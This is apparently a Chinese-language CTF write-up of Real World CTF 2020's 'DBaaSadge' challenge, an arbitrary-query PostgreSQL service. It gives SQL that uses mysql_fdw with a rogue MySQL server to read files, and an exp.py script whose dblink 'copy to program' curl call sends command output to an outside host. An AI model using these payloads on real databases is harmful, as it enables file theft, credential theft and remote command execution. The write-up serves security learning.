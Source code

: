 categories:
- 比赛
tags:
- web
- ctf
- wp
title: real world ctf 2020
---
# Real World CTF 2020

比赛很棒，题目很好，我很菜

## DBaaSadge

就一个PostgreSQL任意语句执行，给的权限不是superuser，但大部分操作是能进行的

```php
<?php
error_reporting(0);

if(!$sql=(string)$_GET["sql"]){
  show_source(__FILE__);
  die();
}

header('Content-Type: text/plain');

if(strlen($sql)>100){
  die('That query is too long ;_;');
}

if(!pg_pconnect('dbname=postgres user=realuser')){
  die('DB gone ;_;');
}

if($query = pg_query($sql)){
  print_r(pg_fetch_all($query));
} else {
  die('._.?');
}

```

题目提供了docker文件

看下Dockerfile发现：

```
安装了postgresql-10-mysql-fdw
还开启了dblink
```

相关的介绍文章：

https://www.percona.com/blog/2018/08/21/foreign-data-wrappers-postgresql-postgres_fdw/

https://www.postgresql.org/docs/10/contrib-dblink-function.html

一个是远程连接mysql，一个是远程连接postgresql 。

mysql客户端有个非常有名的漏洞：`Load data local infile '/etc/passwd' into table proc;`，即客户端文件读取，利用https://github.com/allyshka/Rogue-MySql-Server 搭建一个恶意mysql服务端成功读取到文件


```
CREATE SERVER q FOREIGN DATA WRAPPER mysql_fdw OPTIONS(host'ccreater.top',port'63306')
CREATE USER MAPPING FOR realuser SERVER q OPTIONS (username 'a', password 'a');
CREATE FOREIGN TABLE c (id int)SERVER q OPTIONS(dbname 'a',table_name 'a')
select * from c
```

结合dblink很自然的想到读取postgress数据库存储文件获得superuser密码再任意命令执行

通过本地搭建环境获得数据库文件位置：/var/lib/postgresql/10/main/base

已查找一下postgresql为关键词查找文件得到密码所在文件：

`/var/lib/postgresql/10/main/global/1260`

查找一下postgresql的加密规则：md5(password+username)



exp.py
```python

import requests

sqls=[
      "CREATE SERVER q FOREIGN DATA WRAPPER mysql_fdw OPTIONS(host'ccreater.top',port'63306')",
      "CREATE USER MAPPING FOR realuser SERVER q OPTIONS (username 'a', password 'a')",
      "CREATE FOREIGN TABLE c (id int)SERVER q OPTIONS(dbname 'a',table_name 'a')",
      "select * from c"
]
sqls=[
      "select dblink('host=0 password=jpr5q','copy(select)to program''curl y5pwcd.ceye.io/`/readflag`''')"
]
def hack(sql):
      burp0_url = "http://54.219.197.26:60080/"
      burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
      r= requests.get(burp0_url, headers=burp0_headers,params={
            "sql":sql
      })
      print(r.text)

for sql in sqls:
      hack(sql)
```

rwctf{pop_cat_says_p1ea5e_upd4t3_youR_libmysqlclient_kekW}